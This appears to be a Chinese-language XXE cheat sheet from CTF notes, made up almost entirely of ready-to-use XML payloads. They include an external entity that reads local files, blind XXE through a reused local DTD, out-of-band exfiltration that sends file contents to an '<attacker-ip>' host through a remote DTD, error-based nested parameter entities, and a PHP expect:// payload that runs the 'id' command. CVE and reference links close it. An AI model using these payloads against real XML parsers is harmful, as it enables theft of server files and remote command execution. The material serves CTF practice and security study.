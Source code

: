 # XXE

## 外部实体 (libxml < 2.90)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
 <!ENTITY xxe SYSTEM "file:///flag">
 ]>

 <userInfo>
  <name>&xxe;</name>
 </userInfo>
```


## Blind-XXE 引用本地DTD

利用 ISOamsa

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamsa '
        <!ENTITY &#x25; file SYSTEM "file:///flag">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
'>
    %local_dtd;
]
```

## Blind-XXE 引用外部DTD

XML payload

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE message [
    <!ENTITY % remote SYSTEM "http://<attacker-ip>/a.dtd">  
    <!ENTITY % file SYSTEM "file:///flag">
    %remote;
    %send;
]>
```

DTD payload

```xml
<!ENTITY % start "<!ENTITY &#x25; send SYSTEM 'http://attacker-ip?%file;'>">
%start;
```


## 嵌套参数实体

```
<?xml version="1.0"?>
<!DOCTYPE message [
    <!ELEMENT message ANY>
    <!ENTITY % para1 SYSTEM "file:///flag">
    <!ENTITY % para '
        <!ENTITY &#x25; para2 "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///&#x25;para1;&#x27;>">
        &#x25;para2;
    '>
    %para;
]>
<message>10</message>
```

## except:// PHP扩展协议协议RCE

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
 <!ENTITY xxe SYSTEM "expect://id">
 ]>

 <userInfo>
  <name>&xxe;</name>
 </userInfo>
```

## 相关cve

- CVE-2014-3529 apache poi < 3.10.1 https://xz.aliyun.com/t/6996#toc-3

- CVE-2019-12415 https://b1ue.cn/archives/241.html


## 参考资料

一篇文章带你深入理解漏洞之 XXE 漏洞

https://xz.aliyun.com/t/3357

Blind XXE详解与Google CTF一道题分析 

https://www.freebuf.com/vuls/207639.html

DTD Cheat Sheet 

https://web-in-security.blogspot.com/2016/03/xxe-cheat-sheet.html